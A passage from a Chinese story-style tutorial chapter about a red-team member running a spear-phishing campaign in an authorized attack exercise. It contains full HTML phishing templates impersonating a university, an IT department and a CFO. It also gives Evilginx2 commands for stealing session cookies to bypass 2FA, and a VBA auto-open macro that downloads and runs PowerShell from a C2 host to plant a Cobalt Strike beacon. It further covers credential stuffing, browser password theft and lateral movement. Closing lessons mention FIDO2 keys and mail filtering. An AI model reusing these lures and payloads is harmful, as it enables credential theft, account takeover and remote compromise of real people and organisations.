- 王主任作为新生家长，会关注相关通知

【发件人设计】
- 伪装：XX大学学生处
- 域名：xxuniv-students.com（注册的相似域名）
- 显示名："XX大学学生处"
- 配置：SPF + DKIM + DMARC

【邮件主题】
"【XX大学】2024级新生家长会通知（计算机学院）"

【邮件正文要点】
1. 称呼：尊敬的家长
2. 内容：新生家长会安排
3. 心理触发：
   - "学院领导亲自出席" → 权威
   - "仅限50个名额" → 稀缺
   - "本周五前报名" → 紧迫
4. 钓鱼链接：报名链接 → Evilginx2钓鱼页面

【钓鱼页面】
- 伪装：XX大学家长服务系统
- 登录方式：手机号 + 密码
- 用Evilginx2代理？不行，这不是真实网站
- 改用普通钓鱼页面，但页面做得"很像大学官网"

【后处理】
- 拿到王主任的手机号 + 密码
- 用密码去撞：公司邮箱、OA、VPN
- 如果开了2FA → 改用Evilginx2钓鱼公司邮箱
```

### 4.7 邮件模板设计

**王主任的鱼叉邮件模板：**
```html
<!-- 邮件主题 -->
主题：【XX大学】2024级新生家长会通知（计算机学院）

<!-- 邮件正文 -->
<html>
<body style="font-family: 'Microsoft YaHei', 'SimSun', serif; font-size: 14px; color: #333; line-height: 1.8;">

<table width="700" cellpadding="0" cellspacing="0" style="margin: 0 auto; border: 1px solid #d0d0d0;">

  <!-- 头部 -->
  <tr>
    <td style="background-color: #003366; padding: 25px 30px;">
      <table width="100%">
        <tr>
          <td style="color: #fff;">
            <span style="font-size: 22px; font-weight: bold;">XX大学</span><br>
            <span style="font-size: 13px; opacity: 0.9;">学生工作处 · 计算机科学与技术学院</span>
          </td>
          <td style="text-align: right; color: #fff;">
            <span style="font-size: 12px; opacity: 0.8;">官方通知</span>
          </td>
        </tr>
      </table>
    </td>
  </tr>

  <!-- 正文 -->
  <tr>
    <td style="padding: 35px 40px;">

      <p>尊敬的家长：</p>

      <p>您好！</p>

      <p>首先，祝贺您的孩子顺利考入XX大学计算机科学与技术学院！</p>

      <p>为帮助新生家长更好地了解学校的教学管理、学生发展情况，加强家校沟通，我院定于<b>2024年10月19日（周六）</b>举办"2024级新生家长会"。</p>

      <p><b>会议安排：</b></p>

      <table cellpadding="10" cellspacing="0" style="width: 100%; border-collapse: collapse; border: 1px solid #d0d0d0; margin: 15px 0; font-size: 13px;">
        <tr style="background-color: #f0f4f8;">
          <td style="border: 1px solid #d0d0d0; width: 25%;"><b>时间</b></td>
          <td style="border: 1px solid #d0d0d0;">10月19日（周六）14:00-17:00</td>
        </tr>
        <tr>
          <td style="border: 1px solid #d0d0d0;"><b>地点</b></td>
          <td style="border: 1px solid #d0d0d0;">XX大学计算机学院 · 报告厅（A楼3层）</td>
        </tr>
        <tr style="background-color: #f0f4f8;">
          <td style="border: 1px solid #d0d0d0;"><b>出席</b></td>
          <td style="border: 1px solid #d0d0d0;">学院党委书记、院长、新生班主任、辅导员</td>
        </tr>
        <tr>
          <td style="border: 1px solid #d0d0d0;"><b>内容</b></td>
          <td style="border: 1px solid #d0d0d0;">学院介绍 / 培养方案解读 / 学生在校情况 / 家长交流</td>
        </tr>
        <tr style="background-color: #f0f4f8;">
          <td style="border: 1px solid #d0d0d0;"><b>名额</b></td>
          <td style="border: 1px solid #d0d0d0;">每班限50个家庭（场地有限，额满即止）</td>
        </tr>
      </table>

      <div style="background-color: #fffbe6; border-left: 4px solid #faad14; padding: 15px 20px; margin: 20px 0;">
        <p style="margin: 0;"><b>⚠️ 报名提醒：</b></p>
        <p style="margin: 8px 0 0;">1. 请于<b>10月17日（本周四）24:00前</b>完成报名</p>
        <p style="margin: 0;">2. 报名时需使用<b>家长预留手机号</b>登录家长服务系统</p>
        <p style="margin: 0;">3. 每位学生限1名家长参加</p>
      </div>

      <p style="text-align: center; margin: 35px 0;">
        <a href="{{.URL}}" style="background-color: #003366; color: #fff; padding: 14px 55px; text-decoration: none; font-size: 16px; font-weight: bold;">立即报名家长会</a>
      </p>

      <p style="color: #666; font-size: 13px; margin-top: 25px;">
        如您无法出席，也可通过家长服务系统查看会议资料（会后上传）。
      </p>

      <p style="color: #999; font-size: 12px; margin-top: 30px; border-top: 1px solid #eee; padding-top: 15px;">
        本邮件由XX大学学生工作处自动发送，请勿直接回复。<br>
        联系方式：计算机学院学生工作办公室 0XX-XXXXXXXX 转 8801<br>
        邮箱：xsc@xxuniv.edu.cn
      </p>

    </td>
  </tr>

  <!-- 底部 -->
  <tr>
    <td style="background-color: #f5f5f5; padding: 18px 40px; text-align: center; color: #999; font-size: 12px;">
      © 2024 XX大学 · 学生工作处 · 计算机科学与技术学院
    </td>
  </tr>
</table>

</body>
</html>
```

> 💡 **这封邮件的"毒"点：**
> 1. **学校真实**：XX大学是王主任儿子真实的学校
> 2. **学院精准**：计算机学院，王主任儿子就是这个学院
> 3. **时间合理**：10月中旬，正是新生家长会的时间
> 4. **细节专业**：党委书记、院长、班主任、辅导员——和真实大学家长会一致
> 5. **稀缺紧迫**：每班限50个家庭，本周四截止
> 6. **闭环设计**：登录家长服务系统 → 钓鱼页面
> 7. **退路设计**：无法出席也能看资料（让目标觉得"报名了就有资料"）
> 8. **官方口吻**：所有措辞模仿真实大学通知

---

## ⚔️ Evilginx2实战：绕过2FA拿下高管邮箱

### 5.1 第一阶段：先用普通鱼叉钓鱼

10月14日（周一），小陈按计划发送了第一封鱼叉邮件给王主任。

**第一封邮件：大学家长会通知**
```
📧 第一封鱼叉邮件：
- 收件人：wangxx@xxgroup.com
- 发件人：XX大学学生处 <xsc@xxuniv-students.com>
- 主题：【XX大学】2024级新生家长会通知（计算机学院）
- 链接：https://parents.xxuniv-students.com/login
```

**等待结果：**
```
📊 邮件发送后跟踪：

【10:00】邮件发出
【10:30】邮件打开（Gophish追踪）
【10:31】链接被点击！
【10:32】王主任在钓鱼页面输入了手机号 + 密码
【10:33】凭证被捕获！

【捕获的数据】
- 手机号：138XXXXXXXX
- 密码：Wxx@201018（看起来像 Wxx@+儿子生日）
```

**小陈的第一反应：**
```
😊 小陈的心情：

"成了！王主任上钩了！"
"接下来，用这个密码去撞他的公司邮箱。"

【撞库尝试】
- wangxx@xxgroup.com + Wxx@201018 → 登录失败
- 域账号 wxx + Wxx@201018 → 登录失败

"看来公司邮箱密码不一样。"
"但是这个密码很有规律：Wxx@+儿子生日"
"试一下 Wxx@2010（儿子出生年份）→ 失败"
"试一下 Wxx@2024 → 失败"
"试一下 Wxx@2006（儿子出生年份）→ 失败"

"撞库失败。"
"王主任在公司账号上，用了不同的密码。"
"这是个谨慎的人。"
```

### 5.2 第二阶段：Evilginx2绕过2FA

普通撞库失败，小陈启动第二方案——Evilginx2。

**第二方案：用Evilginx2钓鱼公司邮箱**
```
📧 第二封鱼叉邮件：

【目标】王主任的公司邮箱 wangxx@xxgroup.com
【目的】拿到公司邮箱的Session Cookie，绕过2FA

【前提】
- XX集团用了Exchange邮箱
- 已开启2FA（短信验证码）
- Evilginx2有owa.yml（Exchange OWA的Phishlet）

【钓鱼域名】
mail.xxgroup-update.com（已配置DNS到Evilginx2服务器）

【钓鱼链接】
https://mail.xxgroup-update.com/

【发件人】
"XX集团IT部" <it-support@xxgroup-it.com>

【邮件主题】
【紧急】邮箱异常登录告警，请立即确认

【邮件正文】
伪装成IT部门的安全告警
"检测到您的邮箱在异地登录，请立即确认是否本人操作"
"点击链接登录邮箱进行确认"
链接指向 Evilginx2 的钓鱼链接
```

**Evilginx2的配置：**
```bash
# Evilginx2配置（针对XX集团Exchange邮箱）

# 启动Evilginx2
sudo evilginx2

# 配置钓鱼域名
evilginx2> config domain xxgroup-update.com
evilginx2> config ip 1.2.3.4
evilginx2> config developer true

# 加载OWA Phishlet（Exchange邮箱）
evilginx2> phishlets owa

# 配置Phishlet的钓鱼域名
evilginx2> phishlets hostname owa mail.xxgroup-update.com

# 启用Phishlet
evilginx2> phishlets enable owa

# 创建lure
evilginx2> lures create owa

# 配置lure
evilginx2> lures set path 1 /
evilginx2> lures set redirect 1 https://mail.xxgroup.com/

# 查看钓鱼链接
evilginx2> lures get-url 1
# 输出：https://mail.xxgroup-update.com/
```

**第二封鱼叉邮件正文：**
```html
主题：【紧急】邮箱异常登录告警，请立即确认

<html>
<body style="font-family: 'Microsoft YaHei', Arial, sans-serif; font-size: 14px; color: #333;">

<table width="650" cellpadding="0" cellspacing="0" style="margin: 0 auto; border: 1px solid #e0e0e0;">
  
  <tr>
    <td style="background-color: #d9534f; padding: 20px 30px;">
      <span style="color: #fff; font-size: 18px; font-weight: bold;">⚠️ 安全告警</span>
      <span style="color: #fff; font-size: 12px; float: right; margin-top: 5px;">XX集团 · 信息技术部</span>
    </td>
  </tr>
  
  <tr>
    <td style="padding: 30px;">
      
      <p>尊敬的王主任：</p>
      
      <p>您好！</p>
      
      <p>经我部安全监测系统检测，您的公司邮箱（<b>wangxx@xxgroup.com</b>）于今日 <b>10:42</b> 在以下设备登录：</p>
      
      <table cellpadding="8" cellspacing="0" style="width: 100%; border-collapse: collapse; border: 1px solid #e0e0e0; margin: 15px 0;">
        <tr style="background-color: #f5f5f5;">
          <td style="border: 1px solid #e0e0e0;"><b>登录时间</b></td>
          <td style="border: 1px solid #e0e0e0;">2024-10-15 10:42:18</td>
        </tr>
        <tr>
          <td style="border: 1px solid #e0e0e0;"><b>登录IP</b></td>
          <td style="border: 1px solid #e0e0e0;">103.XX.XX.XX（境外）</td>
        </tr>
        <tr style="background-color: #f5f5f5;">
          <td style="border: 1px solid #e0e0e0;"><b>设备</b></td>
          <td style="border: 1px solid #e0e0e0;">Unknown · Chrome</td>
        </tr>
        <tr>
          <td style="border: 1px solid #e0e0e0;"><b>登录结果</b></td>
          <td style="border: 1px solid #e0e0e0; color: #d9534f;"><b>密码错误（第3次）</b></td>
        </tr>
      </table>
      
      <p style="background-color: #fcf8e3; border-left: 4px solid #faad14; padding: 12px 16px; margin: 20px 0;">
        ⚠️ <b>疑似异地暴力破解攻击！</b><br>
        为保障您的账号安全，请立即登录邮箱确认是否本人操作。如非本人操作，请尽快修改密码。
      </p>
      
      <p style="text-align: center; margin: 30px 0;">
        <a href="{{.URL}}" style="background-color: #d9534f; color: #fff; padding: 12px 45px; text-decoration: none; font-size: 16px; font-weight: bold;">立即登录邮箱确认</a>
      </p>
      
      <p style="color: #999; font-size: 12px;">
        本邮件由系统自动发送，请勿回复。如有疑问，请联系IT部：分机8888。
      </p>
      
    </td>
  </tr>
  
  <tr>
    <td style="background-color: #f5f5f5; padding: 15px 30px; text-align: center; color: #999; font-size: 12px;">
      © 2024 XX集团 · 信息技术部 · 信息安全组
    </td>
  </tr>
</table>

</body>
</html>
```

> 💡 **这封"告警邮件"的绝妙之处：**
> 1. **称谓精准**：直接称呼"王主任"——这是OSINT的成果
> 2. **恐惧触发**："异地登录""暴力破解""密码错误第3次"——制造恐慌
> 3. **细节真实**：IP、设备、时间——看起来像真实告警
> 4. **行动明确**："立即登录邮箱确认"——给了一个明确的动作
> 5. **紧迫感**："尽快修改密码"——让人来不及细想
> 6. **闭环**：链接指向Evilginx2 → 用户登录 → Cookie被截获

### 5.3 王主任上钩

10月15日11:00，小陈发送了第二封邮件。

**实战过程：**
```
📊 Evilginx2实战过程：

【11:00】邮件发出
【11:08】邮件被打开
【11:09】链接被点击！

【11:09】王主任看到的页面：
- URL：https://mail.xxgroup-update.com/
- 看起来和真实的Exchange OWA登录页一模一样
- 输入框、按钮、Logo、配色全部一致
- 唯一的区别：URL是mail.xxgroup-update.com
- 但王主任没仔细看URL

【11:10】王主任输入账号密码
- 用户名：wangxx
- 密码：********

【11:10】Evilginx2代理转发
- 把账号密码转发给真实的 mail.xxgroup.com
- 真实服务器验证通过，要求2FA

【11:10】页面跳转到2FA验证
- 显示"请输入短信收到的验证码"
- 王主任手机收到验证码（真实短信）
- 王主任输入验证码

【11:11】Evilginx2转发验证码
- 把2FA验证码转发给真实服务器
- 真实服务器验证通过
- 设置Session Cookie
- Evilginx2拦截Cookie

【11:11】Evilginx2后台
- sessions命令显示：
  Session ID: 1
  Username: wangxx
  Password: ********
  Tokens: 15个Session Cookie已捕获
  Status: COMPLETE

【11:11】页面跳转
- 王主任看到了"登录成功"
- 跳转到真实的邮箱界面
- 王主任开始看邮件，毫无察觉

【11:12】小陈用Cookie登录
- 浏览器导入Cookie
- 访问 mail.xxgroup.com
- 直接进入王主任的邮箱！无需2FA！
```

**Evilginx2的sessions输出：**
```
📋 evilginx2> sessions

ID  PHISHLET    USERNAME    PASSWORD    TOKENS  STATUS      CREATED
1   owa         wangxx      Wxx@2024!  15      COMPLETE    2024-10-15 11:11:08

详细信息：
evilginx2> sessions 1

Session ID: 1
Phishlet: owa
Username: wangxx
Password: Wxx@2024!
Tokens captured: 15
  - sessionid
  - cadata
  - cadataTTL
  - cadataKey
  - cadataSig
  - ...（共15个Cookie）

Status: COMPLETE
Created: 2024-10-15 11:11:08
Remote IP: 1.2.3.4 (王主任的IP)
```

### 5.4 拿到王主任邮箱后

小陈拿到王主任邮箱的Session Cookie后，立即用浏览器导入，登录了王主任的邮箱。

**邮箱里的"宝藏"：**
```
📊 王主任邮箱里的发现：

【邮件分类】
1. 公司内部通知（最近30天）：87封
   - 包含：人事任命、组织架构调整、政策文件...

2. 和高管的往来邮件：43封
   - 和CEO：12封（直接汇报）
   - 和CFO：8封（财务相关）
   - 和CTO：6封（IT相关）

3. 文档管理系统的"密码重置"邮件：1封
   - 王主任忘了文档系统密码，重置过
   - 重置链接里包含了"临时密码"
   - 临时密码没改！还能用！

4. OA系统的"管理员通知"邮件：23封
   - 王主任是OA管理员
   - 邮件里有OA管理后台的访问方式

5. VPN登录通知：5封
   - 王主任有VPN权限
   - 邮件里有VPN配置说明

6. HR系统的登录通知：3封
   - 王主任有HR系统查看权限
```

**关键发现：**
```
🔑 关键发现：

1. OA管理后台
   - 王主任是OA管理员
   - 邮件里有OA管理后台地址：https://oa-admin.xxgroup.com
   - 用Cookie直接登录（同样的域账号体系）

2. 文档管理系统
   - 临时密码还没改！
   - 直接登录文档管理系统
   - 里面是公司核心文件

3. VPN配置
   - 邮件附件有VPN客户端配置
   - 王主任有VPN权限
   - 但VPN需要2FA...这个搞不定

4. 高管往来邮件
   - 能看到CEO、CFO等高管的内部讨论
   - 包含一些战略决策、人事变动等敏感信息
```

**图126-5 钓鱼王主任后的横向扩展路径**


---

## 🚀 横向扩展：从邮箱到核心系统

### 6.1 配合内网组

小陈把王主任的战果汇报给飞哥。

飞哥一听，眼睛都亮了：
> "可以啊小陈！
> 王主任的邮箱拿下了，这是大进展。
> OA管理员权限 + 文档系统 + 高管邮件...
> 这些足够我们横向扩展了。
>
> 这样：
> 1. 你继续从邮箱里挖信息，找更多突破口
> 2. 把OA管理后台的权限交给内网组，让他们去打
> 3. 文档系统的资料，挑有用的整理出来
> 4. 看能不能针对高管，做第二轮鱼叉"

### 6.2 第二轮鱼叉：针对CEO

小陈从王主任的邮箱里，发现CEO的邮箱地址是 chenzz@xxgroup.com。

而且，从王主任和CEO的往来邮件里，小陈了解到一些CEO的"内部信息"：
- CEO最近在关注一个并购项目
- CEO下周要去某个城市出差
- CEO和CFO有邮件往来讨论"年度预算"

**针对CEO的鱼叉方案：**
```
🎯 CEO鱼叉方案：

【切入点】并购项目
- CEO正在关注一个并购项目
- 项目代号：从邮件里看到的（脱敏：Project XX）
- 可以设计一封"Project XX进展"的邮件

【发件人】
- 伪装：CFO（李总）
- 域名：xxgroup-finance.com
- 显示名："李XX（CFO）"
- 注意：不是真的从CFO邮箱发，而是伪装成CFO

【邮件主题】
"Re: Project XX 最新进展 - 请审阅"

【邮件正文】
- 伪装成CFO回复CEO的邮件
- 内容：Project XX的"最新财务分析"
- 附件：一个带宏的Excel文件
- 文件名："Project XX财务模型v3.xlsx"

【附件】
- 带宏的Excel
- 打开后会执行Payload
- Payload回连C2

【为什么选附件而不是链接】
- CEO有点击链接的警惕性
- 但CEO会打开"下属发来的"Excel文件
- 文件名是CEO关心的项目
- 以为是CFO发的，警惕性低
```

**针对CEO的鱼叉邮件：**
```html
主题：Re: Project XX 最新进展 - 请审阅

<html>
<body style="font-family: 'Microsoft YaHei', Arial, sans-serif; font-size: 14px; color: #333;">

<p>陈总：</p>

<p>关于Project XX，我和团队连夜更新了财务模型，主要调整：</p>

<ol>
<li>标的估值：从XX亿调整到XX亿（基于最新尽调数据）</li>
<li>协同效应：年化节约成本约XX万（详见附件Sheet 2）</li>
<li>风险点：发现2个潜在的财务风险（详见附件Sheet 3）</li>
<li>资金安排：建议分3期支付（详见附件Sheet 4）</li>
</ol>

<p>请您审阅附件，明天上午9点的会上我们再细聊。</p>

<p>另外，下午我和券商那边通了电话，他们对我们的方案比较认可，但建议在估值上再压一压。具体我整理在附件里了。</p>

<p>附件：<b>Project XX财务模型v3.xlsx</b>（含宏，请允许编辑）</p>

<p>如有问题，随时沟通。</p>

<p>李XX<br>
CFO · XX集团<br>
电话：138-XXXX-XXXX</p>

</body>
</html>
```

> 💡 **这封邮件的"毒"点：**
> 1. **冒充CFO**：CEO的下属，信任度高
> 2. **项目真实**：Project XX是CEO真正关心的
> 3. **细节真实**：估值、协同效应、风险点——和真实财务分析一致
> 4. **附件代替链接**：CEO对链接警惕，但对"下属发的Excel"警惕性低
> 5. **"含宏，请允许编辑"**：诱导CEO启用宏
> 6. **闭环**：CEO打开 → 启用宏 → Payload执行 → C2回连

### 6.3 Payload的设计

小陈和阿凯（工具开发）合作，设计了Payload。

**Payload设计：**
```
📋 Payload设计：

【目标】
- 让CEO打开Excel后，自动执行代码
- 代码回连C2服务器
- 拿到CEO电脑的控制权

【载体】
带宏的Excel文件

【宏代码】（VBA）
' Project XX财务模型v3.xlsx 的宏代码

Sub AutoOpen()
    ' 这个宏在文件打开时自动执行
    Dim ws As Object
    Set ws = CreateObject("WScript.Shell")
    
    ' 下载并执行Payload
    ' 这里的URL是C2的伪URL（实际是经过混淆的）
    ws.Run "powershell -windowstyle hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://c2.company-update.com/payload.ps1')""", 0, False
End Sub

' 隐藏宏，让用户看不到
Sub ViewMacro()
    ' 什么都不做，让用户以为没宏
End Sub

【Payload.ps1】（PowerShell脚本）
# 这是从C2下载的Payload
# 实际是Cobalt Strike的Beacon
# 经过免杀处理

# 简化版（实际更复杂，有免杀、混淆、内存加载等）：
IEX (New-Object Net.WebClient).DownloadString('http://c2.company-update.com/beacon.ps1')

# beacon.ps1是Cobalt Strike的Beacon，回连C2
# 实际使用时经过了免杀处理（详见第68-72章）

【免杀处理】
- 用第124章提到的免杀技术
- 经过：代码混淆 + 内存加载 + AMSI绕过 + ETW绕过
- 通过360、火绒、Defender的检测
```

> 💡 **关于免杀：**
> 这里提到的免杀技术，在第123-124章（编程菜鸟到免杀大佬）有详细讲。
> 简单说：杀软会检测恶意代码，免杀就是让代码"看起来不恶意"。
> 常用方法：代码混淆、加密、内存加载、绕过AMSI/ETW、白名单利用等。

### 6.4 CEO中招

10月16日下午3点，小陈发送了针对CEO的鱼叉邮件。

**CEO的视角：**
```
📧 CEO收到邮件：

【15:00】收到邮件
"Project XX最新进展"
"李XX（CFO）发的"
"哦，老李更新财务模型了，我看看。"

【15:01】打开附件
"Project XX财务模型v3.xlsx"
"提示'含宏，请允许编辑'"
"嗯，财务模型一般都有宏，正常。"
"点击'允许编辑'"

【15:01】Excel打开
- 看起来像一个财务模型
- 有几个Sheet：估值、协同、风险、资金
- 内容看起来挺专业（小陈提前做了功课）

【15:02】后台
- 宏代码执行
- 下载并执行Payload
- Beacon回连C2

【15:02】C2后台
- Cobalt Strike收到Beacon回连
- 主机名：CEO-PC
- 用户：chenzz（CEO的域账号）
- IP：10.10.35.10（办公网）
- 权限：普通用户（不是管理员，但够用了）

【15:03】CEO继续看Excel
"嗯，老李这次做得不错。"
"明天开会细聊。"
关掉Excel，继续工作。
```

**CEO完全没意识到自己中招了。**

飞哥看到C2上的Beacon，兴奋地拍桌子：
> "CEO的机器拿到了！
> 小陈，你这次立大功了！
> 有了CEO的机器，我们能做的事就多了。"

### 6.5 横向到核心系统

接下来，内网组接手，从CEO的机器开始横向。

**横向路径：**
```
📊 从CEO机器到核心系统的横向路径：

【第一步：CEO机器 → 信息收集】
- 在CEO机器上跑信息收集
- 发现：CEO有访问"战略决策系统"的权限
- 发现：CEO有访问"董事会文件库"的权限
- 发现：CEO的浏览器里存了一些管理后台的密码

【第二步：CEO浏览器密码 → 管理后台】
- 导出浏览器保存的密码
- 发现3个管理后台的密码：
  * 战略决策系统
  * 董事会文件库
  * 高管报表系统

【第三步：管理后台 → 核心数据】
- 登录战略决策系统
  → 看到公司未来3年的战略规划
  → 看到几个并购项目的尽调报告
- 登录董事会文件库
  → 看到董事会决议
  → 看到高管的薪酬方案
  → 看到公司的财务报表
- 登录高管报表系统
  → 看到全公司的KPI数据
  → 看到所有子公司的经营数据

【第四步：管理后台 → 内网横向】
- 在战略决策系统的服务器上找到配置文件
- 配置文件里有数据库账号密码
- 用这个账号密码，连上了核心数据库
- 核心数据库 → 拿到了公司全部业务数据

【第五步：核心数据库 → 域管】
- 核心数据库服务器在核心区
- 从核心数据库服务器，能访问域控
- 内网组用之前的方法（BloodHound + 配置错误）
- 拿到了域管权限
```

**图126-6 从钓鱼到拿下核心系统的完整路径**


### 6.6 最终战果

7天护网行动结束，红队的最终战果：

```
🏆 XX集团护网红队最终战果：

【社工钓鱼环节】
- 钓鱼邮件发送：4封（精准鱼叉）
- 中招人数：2人（王主任 + CEO）
- 中招率：50%（但都是关键人物）
- 2FA绕过：1次（Evilginx2绕过王主任的2FA）

【整体战果】
- 域控：2台（主备全拿）
- 核心业务系统：5个
- 高管邮箱：2个（王主任 + CEO）
- 核心数据库：3个
- 工作站：80+台
- 数据：5万+员工数据、3年财报、并购尽调、董事会决议...

【小陈的贡献】
- 通过钓鱼，撕开了第一道口子
- 拿到王主任邮箱 → OA管理员 → 内部信息
- 拿到CEO机器 → 横向到核心系统
- 可以说：整个攻击链的"第一脚"是小陈踢开的

【飞哥的评价】
"这次护网，小陈是MVP。
没有他的鱼叉钓鱼，我们打不进去。
XX集团的Web防护做得不错，外围打不进去。
是小陈的钓鱼，给我们撕开了一个口子。
社工钓鱼，是这次护网的'破局之钥'。"
```

---

## 👑 一战成名：钓鱼之王

### 7.1 护网复盘会

护网结束后，XX集团组织了复盘会。

红蓝双方坐在一起，复盘整个攻防过程。

**XX集团蓝队的反应：**
```
😲 XX集团蓝队的反应：

【蓝队队长 张总】
"说实话，我们没想到会被钓鱼打穿。
我们做了全员安全培训，做了钓鱼演练，
员工对常规钓鱼已经免疫了。
但是小陈的鱼叉钓鱼...
第一封'大学家长会'，我们的办公室主任上钩了。
第二封'邮箱异常登录'，又上钩了。
这两封邮件，我们的培训里都没讲过。
完全是定制化的精准打击。"

【XX集团安全总监】
"我们花了几十万做安全培训，
结果被两封邮件打穿了。
我意识到：
常规的安全培训，防不住真正的鱼叉钓鱼。
鱼叉钓鱼的'个性化'，是培训防不住的。
你不可能给每个员工，培训他个人的安全意识。"

【XX集团CEO】
"我都中招了？
我还以为自己警惕性挺高的。
但那封'Project XX'邮件...
太真实了，连项目代号都对。
我以为是我们CFO发的，就打开了。
这次教训很深刻。
以后所有带附件的邮件，都要电话确认。"
```

**红队复盘：**
```
📊 红队复盘（飞哥主持）：

【飞哥】
"这次护网，我们的关键突破是社工钓鱼。
小陈一个人，钓穿了XX集团。
两封鱼叉邮件，拿下了办公室主任和CEO。
然后内网横向，7天拿域控。
这个战绩，非常漂亮。

我们来复盘一下，小陈做对了什么：

1. 情报收集充分
   - 提前一周做OSINT
   - 把王主任研究透了
   - 知道他儿子今年上大学
   - 知道CEO在搞Project XX

2. 切入点精准
   - 王主任：儿子上大学的家长会
   - CEO：关心的并购项目
   - 都是目标真正在意的事

3. 话术设计精细
   - 每一封邮件都精心设计
   - 细节真实、心理触发到位
   - 闭环设计严密

4. 技术手段先进
   - 用Evilginx2绕过2FA
   - 用带宏Excel打CEO
   - 技术和心理学结合

5. 节奏把握准确
   - 第一封先打王主任（OA管理员）
   - 从王主任邮箱里挖到CEO信息
   - 再针对CEO做第二轮
   - 层层递进，不贪多

总结：小陈的钓鱼，是这次护网的'破局之钥'。
没有他的钓鱼，我们根本进不去。"
```

### 7.2 "钓鱼之王"的称号

复盘会上，XX集团的蓝队队长张总，听完小陈的钓鱼过程，感叹道：

> "你们红队这个搞钓鱼的小伙子，是谁啊？
> 这水平，我做了10年安全，第一次见到。
> 不是技术多牛，是太'懂人'了。
> 他怎么知道我们办公室主任儿子今年上大学？
> 他怎么知道CEO在搞Project XX？
> 这哪是钓鱼，这是'心理侧写'啊。"

飞哥笑着说：
> "这是我们的小陈。
> 内向社恐，平时话都说不利索。
> 但搞起社工钓鱼来，比谁都细。"

张总愣了一下：
> "社恐？搞社工的？不是应该外向吗？"

飞哥：
> "这正是小陈的特别之处。
> 他不会说话，但会观察、会分析、会写。
> 钓鱼不需要说话，需要的是理解人性。
> 小陈就是用'内向者的方式'，做了社工。"

会后，XX集团的人给小陈起了个外号——**"钓鱼之王"**。

**小陈的反应：**
```
😅 小陈的反应：

"钓鱼之王"... 这名字... 太夸张了。
我只是做了自己该做的事。
不过，被认可是真的开心。

以前在公司，我是个透明人。
没人知道我干了什么，没人记得我的名字。
现在，至少在护网这个圈子里，
大家知道有个叫小陈的，搞钓鱼挺厉害。

这种感觉... 还挺好的。
"
```

### 7.3 媒体报道（脱敏）

护网结束后，XX集团内部发了通报，对这次护网做了总结。

**XX集团内部通报（节选，脱敏）：**
```
📋 XX集团2024年护网行动通报（节选）

【红队战绩】
本次护网红队（外部邀请），通过社工钓鱼+横向移动，
7天内拿下域控，获取大量核心数据。

【关键攻击路径】
1. 红队通过OSINT情报收集，锁定关键人物
2. 针对办公室主任，定制"大学家长会"鱼叉邮件
3. 办公室主任中招，邮箱被攻破（已开2FA，被Evilginx2绕过）
4. 从邮箱中获取CEO信息，针对CEO发起第二轮鱼叉
5. CEO打开带宏Excel，电脑被控
6. 从CEO电脑横向移动，最终拿下域控

【教训】
1. 全员安全培训，防不住鱼叉钓鱼
2. 2FA不是万能的，能被中间人钓鱼绕过
3. 高管是最高价值目标，需要最高级别的防护
4. OSINT情报泄露严重，需要加强对外信息的管控
5. 邮件系统需要更严格的检测（如DMARC强制reject）

【改进措施】
1. 针对高管，做专门的"高管安全培训"
2. 给关键账号配置FIDO2硬件密钥（防Evilginx2）
3. 部署邮件安全网关，加强鱼叉钓鱼检测
4. 对外信息进行OSINT审计，删除敏感信息
5. 建立"高管邮件白名单"，非白名单邮件隔离
```

---

## 💪 从社恐到自信：心路历程

### 8.1 半年前的自己

护网结束后的那个周末，小陈一个人在家，回顾这半年的经历。

**小陈的日记（节选）：**
```
📝 2024年10月XX日 周末

今天周末，一个人在家。
刚才翻了一下半年前的日记，感慨万千。

半年前，我是这样的：
- 不会说话，开会发言能躲就躲
- 不敢和女同事说话
- 在公司是个透明人
- 月薪1万2，做了5年安全运维，没升职
- 没有任何成就感
- 觉得自己是个失败者
- 老妈催婚，相亲失败3次
- 自卑、抑郁、焦虑

半年后的今天：
- 成了公司的"社工钓鱼专家"
- 在护网中立了大功
- 被称为"钓鱼之王"
- 飞哥说我是MVP
- 老周开始重视我，给我加了薪（1万8）
- 同事们不再嘲笑我，而是来找我请教
- 甚至有猎头开始挖我

这半年，发生了什么？

1. 被逼做钓鱼（6月）
   - 第一次0%中招，被同事嘲笑
   - 想过辞职

2. 疯狂研究（6-8月）
   - 读《欺骗的艺术》《影响力》
   - 研究Gophish、SET、邮件伪造
   - 第二次30%中招，开始有自信

3. 进阶研究（8-10月）
   - 研究鱼叉钓鱼、Evilginx2、OSINT
   - 在公司内部演练中，钓到了老周
   - 第一次"打了胜仗"

4. 真刀真枪（10月）
   - 参加XX集团护网
   - 钓穿XX集团，一战成名

回想起来，关键转折点有几个：

转折点1：第一次失败后，没有放弃
   - 当时想辞职，但还是硬着头皮上了
   - 如果当时放弃了，就没有后面的一切

转折点2：发现"内向也能做社工"
   - 读《欺骗的艺术》，米特尼克的故事启发了我
   - 意识到社工不需要面对面交流
   - 我的"缺点"，换一个地方就是"优点"

转折点3：第一次成功（30%）
   - 证明了自己"能做到"
   - 自信开始建立

转折点4：钓到老周
   - 证明了自己"能打到关键人物"
   - 自信进一步巩固

转折点5：护网一战成名
   - 证明了自己"能在真刀真枪中赢"
   - 自信彻底建立

现在回看，最大的感悟是：
**自信不是天生的，是靠一次次"做到"积累起来的。**

我以前觉得自己不行，是因为我没"做到"过。
当我一次次做到，自信就一点点积累起来。
现在，我虽然还是内向，但不再自卑了。
我知道自己擅长什么，也接受自己不擅长什么。
这就是"自信"——不是觉得自己什么都行，
而是知道自己什么行、什么不行。
```

### 8.2 第一次百人分享

护网结束一个月后，公司内部举办"安全月"活动。

老周找到小陈：
> "小陈，今年安全月，你来讲一场。
> 主题就讲社工钓鱼。
> 分享你的经验，让同事们提高警惕。"

小陈一听，脸就白了：
> "我...我讲不了...100多人...我会紧张死的..."

老周：
> "你能钓穿XX集团，还怕做个分享？
> 放心，我会帮你准备PPT。
> 你就当讲故事，把你的经历讲出来就行。
> 而且，这是公司给你的认可。
> 你应该站出来，让大家看到你。"

小陈纠结了一周，最后答应了。

**准备过程：**
```
📋 小陈的分享准备：

【主题】《从社恐到钓鱼之王：一个内向者的社工之路》

【时长】60分钟

【内容大纲】
1. 我是谁（5分钟）
   - 自我介绍
   - 我的社恐经历

2. 社工钓鱼是什么（10分钟）
   - 社工的核心原理
   - 钓鱼攻击的类型

3. 我是怎么入坑的（10分钟）
   - 被逼做钓鱼
   - 第一次失败
   - 疯狂研究

4. 技术分享（25分钟）
   - Gophish + 邮件伪造
   - 鱼叉钓鱼
